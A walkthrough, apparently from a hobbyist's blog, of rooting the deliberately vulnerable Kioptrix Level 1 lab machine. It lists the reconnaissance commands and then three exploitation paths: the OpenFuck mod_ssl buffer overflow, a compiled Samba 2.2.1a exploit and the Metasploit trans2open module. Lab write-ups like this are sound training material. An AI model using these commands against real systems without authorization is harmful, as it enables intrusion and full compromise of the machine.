 # Kioptrix Level 1 - VulnHub Walkthrough

Hello guys,
I decided to try out the Kioptrix Level 1 machine from VulnHub since it is known to be one of the easiest boxes out there. It is perfect for beginners who want to understand the basics of port scanning, enumeration, and exploitation. I thought I would document my journey while rooting this box and share the steps I followed. Hope it helps someone out.

---

## Getting Started

After importing the Kioptrix Level 1 machine into VMware, my first task was to find its IP address. Since it runs in host-only or bridged mode, I scanned my local subnet to detect the active machines.

I used the `netdiscover` tool to detect the live hosts on my network.

```bash
sudo netdiscover -r 192.168.1.1/24
```

From the output, I found that the target machine was assigned the IP address **192.168.1.104**.

---

## Port Scanning with Nmap

Once I had the IP, I ran a version scan using Nmap to identify open ports and services running on the machine.

```bash
sudo nmap -sV 192.168.1.104 -oN nmap_scan.txt
```

Here are the open ports I found:

* Port 22 running SSH
* Port 80 running HTTP
* Port 111 showing up as RPC
* Port 139 indicating SMB
* Port 443 with HTTPS
* Port 1024 which also looked like a related RPC service

---

## Exploring the Web Server

Since port 80 was open, I visited `http://192.168.1.104` in the browser. The web page loaded but didn’t show anything useful. It looked like a default Apache page.

Next, I used `dirsearch` to fuzz for hidden directories and files on the web server.

```bash
sudo dirsearch -u http://192.168.1.104 --full-url --exclude-status=404,403,401,500
```

Unfortunately, nothing interesting came up. Most of the directories returned 404 or weren’t accessible.

So I moved on to scan the web server for vulnerabilities using Nikto.

```bash
nikto -h http://192.168.1.104
```

Nikto reported that the server was running **Apache 1.3.20 with mod\_ssl 2.8.4** which is vulnerable to **CVE-2002-0082**. That was the first solid lead.

---

## Exploiting mod\_ssl Vulnerability

I searched online and also used `searchsploit` to confirm that the version was vulnerable to a remote buffer overflow attack. The exploit is famously known as **OpenFuck**.

I cloned the exploit code from GitHub.

```bash
git clone https://github.com/exploit-inters/OpenFuck.git
cd OpenFuck
make
```

After compiling it, I ran the exploit with the target IP and port 443.

```bash
./OpenFuck 0x6b 192.168.1.104 443 -c 50
```

This gave me a shell on the machine, and when I typed `whoami`, the result was **root**. First root access achieved successfully through mod\_ssl.

---

## Checking RPC Ports

I went back and looked at ports 111 and 1024 which were related to RPC. I ran some enumeration but didn’t find anything valuable through those ports, so I decided to focus on SMB instead.

---

## Enumerating SMB

Using `smbclient`, I attempted to connect anonymously.

```bash
smbclient -L //192.168.1.104 -N
```

This showed two shares: **IPC\$** and **ADMIN\$**.

When I connected to IPC\$ anonymously, it didn’t contain anything of interest. I tried accessing ADMIN\$ as well, but it required credentials and access was denied.

---

## Finding SMB Version

To find out more about the SMB service, I used Metasploit to detect the Samba version.

```bash
msfconsole
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.1.104
run
```

Metasploit confirmed that the service was running **Samba 2.2.1a**, which is known to be vulnerable.

---

## Exploiting Samba

I looked up exploits for Samba 2.2.1a using `searchsploit` and found a few. One of them was a C file named **10.c** located in the exploitdb folder.

```bash
searchsploit -p 10.c
cd /usr/share/exploitdb/exploits/multiple/remote
gcc -o exploit 10.c
./exploit -b 0 192.168.1.104
```

I ran the compiled exploit and again got **root shell access**. That made it the second successful way to compromise the machine.

---

## Trying Metasploit for Samba

Just for fun, I went ahead and tried the Metasploit module **trans2open**, which also targets Samba vulnerabilities.

```bash
use exploit/linux/samba/trans2open
set RHOST 192.168.1.104
set PAYLOAD cmd/unix/interact
run
```

And it worked again — another root shell. That made it the third method I used to get access on this machine.

I changed the root password from this session and logged in directly with `username = root` and my new password. Everything worked perfectly.

---

## Final Thoughts

This machine is a great choice for beginners. It helped me practice:

* Host discovery
* Port scanning
* Web enumeration
* Service exploitation using both manual methods and Metasploit

I managed to get root using three different techniques:

1. Apache mod\_ssl buffer overflow using OpenFuck
2. Samba 2.2.1a buffer overflow via C exploit
3. Metasploit Samba trans2open module

Overall, it was a solid learning experience and a fun machine to hack.

---

**Author:** Kakaxh1
**Email:** [kkaxh1.009720@gmail.com](mailto:kkaxh1.009720@gmail.com)

